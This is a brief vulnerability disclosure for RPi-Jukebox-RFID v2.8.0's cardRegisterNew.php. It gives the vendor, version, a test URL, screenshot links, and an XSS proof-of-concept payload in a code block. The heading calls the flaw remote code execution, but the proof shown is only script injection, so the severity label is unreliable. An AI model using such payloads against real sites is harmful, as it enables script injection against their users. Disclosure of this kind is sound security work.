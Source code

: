 # RCE vulnerability in [RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID) v2.8.0 of file /cardRegisterNew.php

**vender**:

- [MiczFlor/RPi-Jukebox-RFID: A Raspberry Pi jukebox, playing local music, podcasts, web radio and streams triggered by RFID cards, web app or home automation. All plug and play via USB. GPIO scripts available.](https://github.com/MiczFlor/RPi-Jukebox-RFID)

**SoftLink**:

- [Release v2.8.0: Fix Spotify Authentication · MiczFlor/RPi-Jukebox-RFID](https://github.com/MiczFlor/RPi-Jukebox-RFID/releases/tag/v2.8.0)

**Vulnerable File**

- /htdocs/cardRegisterNew.php

**Version**

- 2.8.0

### POC

```
"><img src=x onerror=alert('xss')>
```

http://192.168.100.101/phoniebox/htdocs/cardRegisterNew.php

![image-20250825032912788](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250329147.png)



![image-20250825032923029](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508250329591.png)